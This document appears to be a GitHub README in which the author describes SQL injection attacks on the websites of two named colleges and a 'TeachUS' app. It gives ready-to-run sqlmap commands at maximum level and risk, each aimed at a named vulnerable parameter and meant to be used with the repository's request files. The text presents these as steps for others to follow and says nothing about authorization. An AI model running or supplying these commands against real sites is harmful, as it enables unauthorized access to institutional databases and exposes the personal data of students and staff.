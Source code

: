 # Hacking Databases using SQLMap

This repository showcases how I successfully tested the security of these databases by exploiting SQL vulnerabilities. The tools I used 
 [SQLMap](http://sqlmap.org/) and [Acunetix](https://www.acunetix.com/).

## Prerequisites

Before running the SQLMap commands, ensure you have the following installed:

- [SQLMap](http://sqlmap.org/)
- [Acunetix](https://www.acunetix.com/)
- Python 2.7 or Python 3.x

You will also need the request files provided in this repository:

- `somaiyaClg.txt`
- `thakur.txt`
- `teachus.txt`

These files contain the HTTP requests which is going to use to connect to the web server

## Clone Repository
```bash
git clone https://github.com/seanvishwakarma/sqlmap-database-hack.git
```

## How to Use

### 1. Somaiya College Website

The SQL injection vulnerability was found in the `id` parameter.

```bash
sqlmap -r somaiyaClg.txt -p id --batch -o --level 5 --risk 3 --dbs
```
![Somaiya College SQLMap Result](images/somaiyaClg.png)

### 2. Thakur College Website

For Thakur College, the vulnerability was found in the `password` parameter.

```bash
sqlmap -r thakur.txt -p password --batch -o --level 5 --risk 3 --time-sec=5 --dbs
```
![Thakur College SQLMap Result](images/thakur.png)


### 3. TeachUS App Database

The TeachUS app database was vulnerable through the college parameter.

```bash
sqlmap -r teachus.txt -p college --batch -o --level 5 --risk 3 --dbs
```
![TeachUS App SQLMap Result](images/teachus.png)
